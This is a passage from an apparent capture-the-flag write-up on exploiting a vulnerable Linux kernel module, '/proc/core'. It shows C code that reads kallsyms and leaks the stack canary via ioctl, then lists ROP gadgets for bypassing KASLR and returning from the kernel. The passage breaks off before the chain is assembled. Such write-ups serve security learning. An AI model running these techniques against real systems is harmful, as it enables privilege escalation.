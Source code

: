 ​	**fgets()** reads the information of each line in kallsyms, such as `ffffffffa16cc0e0 T commit_creds`, we could observe the function address in the first 16 bytes.

​	**strtoull()** is the C library function **unsigned long long int strtoull(const char *nptr, char \*\*endptr, int base)**; This function will turn the string which is pointed by the argument `nptr` to an unsigned long integer(unsigned long long int). The argument `base` must be between 2 and 36, or a special value of 0. So we could use it to convert a character function address to a hexadecimal unsigned long integer.

**3. Leak Canary**

​	As mentioned in the analysis, we could set the global variable `off` to `0x40`. According to the stack layout, after the Canary is filled, the first 8 bytes of the array taken is the Canary. After that, we can fill the first 80 bytes of the ROP chain with Canary. 0x40 (size of buf) + 0x8 (size of Canary) + 0x8 (size of old_RBP) = 0x50 = 80 bytes.

```text
                        rsp---> +-----------+
                                |    buf    |
                   rsp+0x40---> +-----------+
                                |   Canary  |
                   rsp+0x48---> +-----------+
                                |    RBP    |
                   rsp+0x50---> +-----------+
                                |    RIP    |
                                +-----------+ 
```

```c
  87   │     int fd = open("/proc/core", O_RDWR);
  88   │     if (!fd) {
  89   │         puts("[-] OPEN /proc/core ERROR.");
  90   │         exit(0);
  91   │     }
  92   │     ioctl(fd, CORE_OFF, 0x40);
  93   │     ioctl(fd, CORE_READ, user_buf);  //leak canary
  94   │     size_t canary = ((size_t *)user_buf)[0];
  95   │     printf("[+] Find canary: 0x%llx\n", canary);
  96   │ 
  97   │     for(i = 0; i < 10; i++)
  98   │     {
  99   │         rop[i] = canary;
 100   │     }
```

**4. Bypass KASLR and construct the ROP chain**

​	We have saved the gadget in advance. The following gadgets are used in the construction of this ROP chain.

```assembly
0xffffffff81000b2f: pop rdi; ret
0xffffffff810a0f49: pop rdx; ret; 
0xffffffff8106a6d2: mov rdi, rax; jmp rdx;
0xffffffff81a012da: swapgs; popfq; ret;
0xffffffff81050ac2: iretq; ret;
```
